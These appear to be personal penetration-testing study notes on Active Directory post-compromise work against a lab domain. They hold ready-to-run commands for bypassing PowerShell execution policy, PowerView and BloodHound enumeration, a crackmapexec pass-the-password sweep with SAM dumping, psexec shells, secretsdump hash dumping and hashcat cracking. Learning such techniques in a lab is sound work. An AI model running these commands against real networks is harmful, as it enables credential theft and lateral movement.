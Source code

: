 ## Post-Compromise Enumeration
### Downloading PowerView:
Download the PowerView.ps1 from https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1 into the target machine that is been exploited.

### PowerView
- PowerView is super usefull after access the target machine and you want to enumerate any type of information about the netwrok, computer or user.
- From the cmd run "powershell -ep bypass" to allow powershell execution Policy bypass. Not doing this would prever running files out of the normal in powershell.

- To run and use PowerView run ". .\\PowerView.ps1"
- Get-Domain; Get-DomainControler; Get-NetComputer | select operatingsystem ,  logoncount ; Get-NetGroup -GroupName ****admin**** ; Invoke-ShareFinder - are some examples
- PowerView Cheat Sheet: 
- 
- 
- [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

### Bloodhound
Can be used to get data on the computer and domain you have attacked. 

- On the target machine download the file SharpHound.ps1", run "powershell -ep bypass" and after running the file, run "Invoke-BloodHound -CollectionMethod All -Domain MARVEL.local -ZipFilename file.zip". Get the zip file to the attacking linuz machine and load the data into bloodhoud. 



## Post-Compromise Attacks
This attacks can only happen after having a compromised target. These are some of the best attacks that we can leverage once we compromise a machine on a network. 
### Pass the Password/hash attack
#### Pass the Password attack
- This attack is focused on when you are able to dump the hashes "hashdump" or have access to the user credentials. This attack uses "crackmapexec" and if you have one of the 2 (hash/password) you will be able to use them to login to the same user inside the network on other machines. 
- To download use "sudo apt install crackmapexec"
- To run use "crackmapexec 192.168.57.0/24 -u fcastel -d Marvel.local -p Password1 --sam". --sam to attempt dumping sam hashes, not required. 
- When using this you will have the ip address, name of the machine, user and password used.
![[Pasted image 20230601105422.png]]
- We can now use psexec.py to gain sheel to another computer in the network with the same user credentials. "sudo psexec.py marvel/fcastel:Password1@192.168.57.142" or using metasploit using psexec.

#### Dumping Hashes with secretsdump.py
- This is stored in "/impacket/examples". 
- Use "python3 secretsdump.py marvel/fcastel:Password1@192.168.138.150"
![[Pasted image 20230601113339.png]]
###### Cracking NTLM Hashes with Hashcat (We can not use NTLMV2 for hash pass)
- We can use the hashes and try to crack them using hashcat, ntlm hashes, module 1000. 
- On windows we can use "hashcat64.exe -m 1000 hashes.txt rockyou.txt -O"
